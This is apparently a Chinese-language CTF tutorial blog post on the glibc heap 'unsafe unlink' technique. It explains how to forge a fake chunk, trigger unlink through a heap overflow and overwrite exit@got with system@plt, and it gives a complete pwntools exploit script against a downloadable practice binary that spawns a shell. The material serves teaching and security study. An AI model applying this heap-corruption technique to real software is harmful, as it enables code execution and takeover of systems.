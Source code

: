 ```yaml
---
title: unsafe unlink攻击技术示例
tags: [CTF, pwn, heap, unlink]
layout: post
categories: tutorials
---
```


在掌握了unsafe unlink的大致知识后, 这里以一个pwn题针对unsafe unlink进行一个简单的攻击示例

本节示例的漏洞程序可以从此处下载: [unsafe_unlink_example](http://od7mpc53s.bkt.clouddn.com/unsafe_unlink_example)

# 程序流程图

![unsafe_unlink_example](http://od7mpc53s.bkt.clouddn.com/unsafe_unlink_example.png)

# 攻击思路

首先程序是64位文件, 因此指针长度`size_p=8`. 我们整个的攻击思路就是, 自己先构造一个`fake_chunk`. 随后运行程序, 创建两个`chunk`, 然后向第一个chunk写入我们构造的`fake_chunk`, 这个`fake_chunk`不仅包含伪造的堆块, 还包括了堆溢出所覆盖第二个堆块的信息. 这样一来. 我们再释放掉第二个堆块, 这样自然就会使得我们的`fake_chunk`触发`unlink`操作.

接下来我们通过指针, 覆盖`exit@got`为`system@plt`, 再在菜单中选择`5`出发`exit()`就能正确执行`system`获得一个shell

# 利用代码

``` python
from pwn import *

#elf = ELF('./unsafe_unlink_example')
io = process('./unsafe_unlink_example')

size_p = 8
plt_system = 0x4009b6#elf.symbols['system']
got_exit = 0x601250#elf.got['exit']
pointer = 0x6012a0

fake_chunk = '\x00'*2*size_p + p64(pointer - 3*size_p) + p64(pointer - 2*size_p) + 'A'*(0x80-4*size_p) + p64(0x80) + p64(0x90)
overwrite = '\x00'*3*size_p + p64(got_exit)


# create node
io.recvuntil('------------------------\n')
io.sendline('1')
#io.recvuntil('create:')
io.sendline('0')

# create node
io.recvuntil('------------------------\n')
io.sendline('1')
#io.recvuntil('create:')
io.sendline('1')

# edit node
io.recvuntil('------------------------\n')
io.sendline('2')
#io.recvuntil('edit:')
io.sendline('0')
#io.recvuntil('input:')
io.sendline(str(len(fake_chunk)))
#io.recvuntil('node:')
io.sendline(fake_chunk)

# delete node
io.recvuntil('------------------------\n')
io.sendline('3')
#io.recvuntil('create:')
io.sendline('1')

# edit node
io.recvuntil('------------------------\n')
io.sendline('2')
#io.recvuntil('edit:')
io.sendline('0')
#io.recvuntil('input:')
io.sendline(str(len(overwrite)))
#io.recvuntil('node:')
io.sendline(overwrite)

# edit node
io.recvuntil('------------------------\n')
io.sendline('2')
#io.recvuntil('edit:')
io.sendline('0')
#io.recvuntil('input:')
io.sendline(str(size_p))
#io.recvuntil('node:')
io.sendline(p64(plt_system))

# exit
io.recvuntil('------------------------\n')
io.sendline('5')
io.interactive()
```
